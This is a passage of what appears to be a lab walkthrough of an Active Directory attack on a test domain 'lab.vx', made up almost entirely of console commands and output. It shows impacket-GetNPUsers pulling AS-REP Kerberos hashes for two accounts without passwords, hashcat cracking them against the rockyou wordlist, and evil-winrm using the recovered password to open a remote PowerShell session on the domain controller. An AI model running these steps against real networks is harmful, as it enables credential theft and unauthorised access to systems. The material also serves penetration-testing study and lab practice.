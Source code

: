 ```console
root@kali:~# impacket-GetNPUsers lab.vx/luke -no-pass -dc-ip 192.168.17.11
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for luke
$krb5asrep$23$luke@LAB.VX:83a8d136c9ba393dd708c9aa7592627c$14923c61398475cc0472ed6f9d32058fd2cc40f303bbf4eb0fd7df2bffd0fd9dcb9471ed8dfa40e816f7dc6852b736a89c8ab0d1176f4d37b4c3359639df8d068f05305b51e7d0ed46902c5a7c038565d734a581600ac7619279f9f58c810766abf462b666f5e161f2e4f0a7d00dd4f35220f0e4c7803a291a02aec1f4206b066c6203d72d53b5d87a50d3ec446c9a03744f9662395fe402002859554873cfdccd06a55517072304a3939825068ac58be739c4732cae4efb95bd99fd29a21dfa15c53baff833f0003b56e48037404f6256413fed0c02623ba87b6c6a2d347129

root@kali:~# impacket-GetNPUsers lab.vx/mike -no-pass -dc-ip 192.168.17.11
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for mike
$krb5asrep$23$mike@LAB.VX:16b0315eceaf3c550a69927d62456d9d$821259e1e9980ad1d2fe42f2278c09ebec3aa95cfb361df26ea424d544a79a0f01ee594a13f486086976f469671319da5b60fd334ce103c87d3ac57082820063bad67799e3670e8774594d7a7138caa8892e0cfaec067c19aaf8b32be13f92d302ba0f3b1875a4b030002e447579d3950a9843012c53687ce1342d1a2da0de3dad94b54f56bcfc7d3e07a09b91d81ca94d80690f9db7e0921c20d223f4b6db66ad94b3aa5a89b392fedd8e69428ea27359f80b7c00df0c8075f7fa1543c9f27956e5d5950e14b4405d7c5aeec255d3df1ecabdc05e5a0a892c00cb2e415e8cf7
```

## 1.4. Use hashcat to crack the hashes

```console
root@kali:~# hashcat -m 18200 GetNPUsers.out /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
⋮
$krb5asrep$23$mike@LAB.VX:•••hash-truncated•••:P@ssw0rd
$krb5asrep$23$luke@LAB.VX:•••hash-truncated•••:P@ssw0rd

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
⋮
Started: Wed Dec  7 07:54:16 2022
Stopped: Wed Dec  7 07:54:44 2022
```

## 1.5. Connect to target

### 1.5.1. Using evil-winrm

- WinRM `5985` must be enabled on the target
- User must be a member of `Remote Management Users` on the target

```console
root@kali:~# evil-winrm -i 192.168.17.11 -u mike -p P@ssw0rd

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mike\Documents>
```
